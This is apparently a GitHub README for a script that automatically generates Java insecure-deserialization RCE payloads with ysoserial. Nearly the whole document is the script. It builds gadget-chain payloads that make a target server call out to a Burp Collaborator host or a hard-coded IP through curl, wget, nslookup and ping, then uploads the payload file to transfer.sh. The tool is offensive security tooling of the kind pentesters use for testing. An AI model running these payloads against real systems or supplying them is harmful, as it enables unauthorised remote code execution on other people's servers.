 # java-insecure-deserialization
<p align="center">
  <img width="460" height="300" src="https://github.com/nowak0x01/java-insecure-deserialization/assets/96009982/aaa3a093-5026-4250-8232-f23cab3b10a8">
</p>
This script automatically generates all payloads available in Ysoserial https://github.com/frohoff/ysoserial that lead to Remote code execution (RCE), using Out of Band techniques

Note: Payloads that could not be automated. <i>AspectJWeaver, FileUpload1, JSON1, Jython1</i> and <i>Wicket1</i>
```C
sudo docker run --rm adoptopenjdk/openjdk11 /bin/bash -c '

Collaborator="hufzwo32omf8ss00d9dyayy18sej29qy.oastify.com"
IP="54.77.139.23" # for JRMPListener payload
Encoding="base64 -w0"

export TERM="xterm"
clear
printf "\n\e[1;37m[#]\e[0m Downloading latest ysoserial release \e[1;37m[#]\e[0m\n\n"
curl -LkO https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar && printf "\n\e[1;37m[#]\e[0m Download Completed! \e[1;37m[#]\e[0m\n"
java -jar ysoserial-all.jar >& out
printf "\n\e[1;37m[#]\e[0m Building Payloads (slow) \e[1;37m[#]\e[0m\n"
java -jar ysoserial-all.jar URLDNS "https://URLDNS.$Collaborator/" 2>&- | $Encoding >> payloads.inc
printf "\n" >> payloads.inc
java -jar ysoserial-all.jar C3P0 "https://$Collaborator/:C3P0" 2>&- | $Encoding >> payloads.inc
printf "\n" >> payloads.inc
java -jar ysoserial-all.jar Myfaces2 "https://$Collaborator/:Myfaces2" 2>&- | $Encoding >> payloads.inc
printf "\n" >> payloads.inc
[ "$IP" != "" ] && java -jar ysoserial-all.jar JRMPListener "$IP" 2>&- | $Encoding >> payloads.inc
for _payload in $(cat out | awk "{print \$1}" | grep -vE "^Y$|Usage:|Available|Sep|INFO:|Payload|-------");do
    java -jar ysoserial-all.jar $_payload "curl curl_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
    java -jar ysoserial-all.jar $_payload "nslookup nslookup_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
    java -jar ysoserial-all.jar $_payload "wget wget_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
    java -jar ysoserial-all.jar $_payload "ping ping_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
done
file=$(tr -dc 'A-Z0-9' </dev/urandom | head -c 20)
sort -u payloads.inc > $file
printf "\n\n\e[1;37m[+] The payloads have been uploaded [+]\n"
printf "U can download the file through that link: "; curl -Lsk --upload-file $PWD/$file https://transfer.sh/$file
echo
'
```
